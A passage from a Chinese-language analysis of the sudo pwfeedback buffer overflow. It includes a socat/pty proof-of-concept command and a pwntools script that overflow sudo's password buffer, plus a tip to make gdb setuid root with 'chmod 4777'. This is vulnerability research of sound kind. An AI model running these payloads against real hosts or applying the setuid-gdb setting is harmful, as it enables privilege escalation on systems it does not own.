 所以只要不断传入类似`"xxx...x00"`的字符串，就可以不断向 `buf`里写东西，造成buf溢出。

<a class="reference-link" name="poc2"></a>**poc2**

okay, 理解了`poc1`的触发原理，那么我们再来看`poc2`就十分的简单了。

使用 `poc2`的原因是在`sudo 1.8.26` 中加入了对 EOF的处理，于是`poc1`就不管用了

```
if (c == sudo_term_eof) `{`
        nr = 0;
        break;
```

但是如果是从终端获取输入流，也就是我们说的pty，情况就不一样了，我们可以在[维基百科](https://en.wikipedia.org/wiki/ASCII#Control_characters)中找到`eof`和`kill` 控制符对应的ascii. `eof( EOT, ^D End-of-file character)` 对应的ascii为0x04, kill为 0x15。 如果从pty获取输入流，那么这个漏洞就又复活了。

[![](https://p2.ssl.qhimg.com/t0150e9bd76e3328e1c.jpg)](https://p2.ssl.qhimg.com/t0150e9bd76e3328e1c.jpg)

对应的 poc

```
socat pty,link=/tmp/pty,waitslave exec:"python -c 'print(("A"*100+chr(0x15))*50)'" &amp;
$ sudo -S id &lt; /tmp/pty
```

这里创建了一个临时的 pty, 然后还是将 payload 通过 pty 传到 sudo即可

接下来我们就来看看如何对这个漏洞进行利用。

### <a class="reference-link" name="%E8%B0%83%E8%AF%95"></a>调试

在分析的时候，查看内存是必不可少的，这里的做法是使用 gdb 结合 pwntools来调试

`poc2`对应的 py 代码如下

```
import sys,os
from pwn import *

TARGET=os.path.realpath("/usr/local/bin/sudo")

mfd, sfd = os.openpty()
fd = os.open(os.ttyname(sfd), os.O_RDONLY)

p = process([TARGET,"-S", "id"],stdin=fd)
pause()
payload = ("A"*100+"x15")*50
os.write(mfd, payload+"n")
pause()
sys.exit(0)
```

运行上面这段代码，等 `pause()`的使用再用 gdb attach进程即可

这里需要注意sudo运行时是root权限，所以gdb也需要用root权限运行，可以使用root用户或者给gdb添加 s权限`chmod 4777 /usr/bin/gdb`
